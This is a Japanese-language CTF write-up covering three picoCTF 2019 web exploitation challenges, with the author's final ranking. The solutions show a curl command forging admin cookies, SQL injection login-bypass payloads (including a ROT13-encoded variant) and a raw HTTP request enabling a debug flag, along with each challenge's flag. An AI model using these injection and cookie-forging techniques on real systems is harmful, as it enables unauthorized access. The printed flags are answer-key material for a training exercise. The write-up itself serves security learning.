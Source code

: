 ```yaml
---
title: "picoCTF 2019 Writeup (Web Exploitation)"
date: 2019-10-13T12:00:00+09:00
lastmod: 2019-10-13T12:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Fpicoctf_2019_web%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}

URL: [https://2019game.picoctf.com/](https://2019game.picoctf.com/)
<br /><br />
2週間、お疲れ様です。

<br /><br />
最終結果は、こんな感じ。

<img src="https://captureamerica.github.io/writeups/img/pico2019_Score.png" alt="pico2019_Score.png">

<br />
イベント終了時点で、ユーザは4万人弱でした。

<img src="https://captureamerica.github.io/writeups/img/pico2019_Users.png" alt="pico2019_Users.png">

<img src="https://captureamerica.github.io/writeups/img/pico2019_Rank.png" alt="pico2019_Rank.png">

PwnとWeb系があんまりできてないけど、スコアも切りのいい20000に行ったし、Globalで目標の300位以内 (283位) にも入れたのでかなり満足です。

去年出た問題に似てるものも結構あったので、picoCTF 2018をそれなりにやった人は結構アドバンテージがあったと思います。



<br /><br />
Web Exploitation の Writeupです。




<br /><br />
## [Web Exploitation]: Open-to-admins (200 points)
- - -
### Challenge
> This secure website allows users to access the flag only if they are admin and if the time is exactly 1400. https://2019shell1.picoctf.com/problem/32249/ (link) or http://2019shell1.picoctf.com:32249
<br /><br />
Hints : Can cookies help you to get the flag?<br />

<br />
### Solution
<pre>
curl -k -H 'Cookie: admin=True; time=1400'  https://2019shell1.picoctf.com/problem/32249/flag
</pre>


Flag: `picoCTF{0p3n_t0_adm1n5_cc661e91}`



<br /><br />
<br /><br />
## [Web Exploitation]: Irish-Name-Repo 2 (350 points)
- - -
### Challenge
> There is a website running at https://2019shell1.picoctf.com/problem/60775/ (link). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://2019shell1.picoctf.com:60775
<br /><br />
Hints : The password is being filtered.

<br />
### Solution
picoCTF 2018のVaultと同じ問題です。

デバッグを見ようとして、以下を入れたら、Flag取れちゃった。
<pre>
username
' /*

password
*/ or 3=3 -- &debug=1
</pre>

Flag: `picoCTF{m0R3_SQL_plz_015815e2}`




<br /><br />
<br /><br />
## [Web Exploitation]: Irish-Name-Repo 3 (400 points)
- - -
### Challenge
> There is a secure website running at https://2019shell1.picoctf.com/problem/12271/ (link) or http://2019shell1.picoctf.com:12271. Try to see if you can login as admin!
<br /><br />
Hints : Seems like the password is encrypted.


<br />
### Solution
Burpでやったらdebug変数が見えたので、1に変えてみました。

<pre>
POST /problem/12271/login.php HTTP/1.1
Host: 2019shell1.picoctf.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Connection: close
Referer: https://2019shell1.picoctf.com/problem/12271/login.html
Upgrade-Insecure-Requests: 1

password=admin&debug=1
</pre>

<pre>
password: admin
SQL query: SELECT * FROM admin where password = 'nqzva'
</pre>

'nqzva' は、'admin' のRot13ですね。

<br />
いつも使うこのパターンを、
<pre>
' or 1=1 --
</pre>

Rot13して以下のようにします。
<pre>
' be 1=1 --
</pre>

<br>

Flag: `picoCTF{3v3n_m0r3_SQL_ef7eac2f}`



<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />


